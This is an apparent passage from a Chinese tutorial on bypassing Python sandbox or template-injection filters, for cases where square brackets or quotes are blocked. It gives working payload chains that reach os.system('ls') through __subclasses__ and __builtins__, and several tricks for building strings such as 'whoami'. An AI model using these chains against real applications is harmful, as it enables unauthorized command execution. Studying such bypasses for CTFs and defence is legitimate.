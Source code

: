 
### 过滤了 []
如果中括号被过滤了，则可以使用如下的两种方式来绕过：

1. 调用`__getitem__()`函数直接替换；
2. 调用 pop()函数（用于移除列表中的一个元素，默认最后一个元素，并且返回该元素的值）替换；

```py
''.__class__.__mro__[-1].__subclasses__()[200].__init__.__globals__['__builtins__']['__import__']('os').system('ls')

# __getitem__()替换中括号[]
''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(200).__init__.__globals__.__getitem__('__builtins__').__getitem__('__import__')('os').system('ls')

# pop()替换中括号[]，结合__getitem__()利用
''.__class__.__mro__.__getitem__(-1).__subclasses__().pop(200).__init__.__globals__.pop('__builtins__').pop('__import__')('os').system('ls')

getattr(''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(200).__init__.__globals__,'__builtins__').__getitem__('__import__')('os').system('ls')
```

### 过滤了 ''

#### str 函数
如果过滤了引号，我们 payload 中构造的字符串会受到影响。其中一种方法是使用 str() 函数获取字符串，然后索引到预期的字符。将所有的字符连接起来就可以得到最终的字符串。

```py
>>> ().__class__.__new__
<built-in method __new__ of type object at 0x9597e0>
>>> str(().__class__.__new__)
'<built-in method __new__ of type object at 0x9597e0>'
>>> str(().__class__.__new__)[21]
'w'
>>> str(().__class__.__new__)[21]+str(().__class__.__new__)[13]+str(().__class__.__new__)[14]+str(().__class__.__new__)[40]+str(().__class__.__new__)[10]+str(().__class__.__new__)[3]
'whoami'
```

#### chr 函数
也可以使用 chr 加数字来构造字符串
```py
>>> chr(56)
'8'
>>> chr(100)
'd'
>>> chr(100)*40
'dddddddddddddddddddddddddddddddddddddddd'
```

#### list + dict
使用 dict 和 list 进行配合可以将变量名转化为字符串，但这种方式的弊端在于字符串中不能有空格等。
```py
list(dict(whoami=1))[0]
```
#### `__doc__`
`__doc__` 变量可以获取到类的说明信息，从其中索引出想要的字符然后进行拼接就可以得到字符串：
```py
().__doc__.find('s')
().__doc__[19]+().__doc__[86]+().__doc__[19]
```
